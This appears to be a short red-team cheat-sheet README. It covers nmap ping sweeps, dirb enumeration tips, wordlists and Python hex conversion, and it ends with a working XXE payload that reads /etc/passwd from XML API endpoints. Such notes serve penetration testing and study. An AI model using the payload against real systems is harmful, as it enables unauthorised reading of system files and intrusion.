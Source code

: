 # Red Team

* gethead.sh - gets HEAD from some webservesr.
* getrobots.sh - get ```robots.txt``` from webservers.
* hexstr.py - converts hex-encoded str back to ascii

# Nmap
### Very quick ping sweep
```sudo nmap -n -sn -PE -T5 $ipRange```

# Webapps

Don't forget to enumerate everything. Even the things you haven't thought of.

### dirb
* Check for cgi-bin/
* Search for different file extensions (is there a list of common file ext for brute forcing?)


# Wordlists
* [SecList - Really good wordlists](https://github.com/danielmiessler/SecLists)
* raft-large
* rockyou

# Python

### Dealing with hex encoded strings.

#### Convert hex to dec, 6c = 'l'
```dec = int("6c", 16)```

#### Print that in ascii
```print chr(dec)```

## XXE (XML External Entity)

Find some Rest/XML API endpoint of a webapp, using POST requests you can get it to RCE.
```xml
<?xml version="1.0"?>
<!DOCTYPE food [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

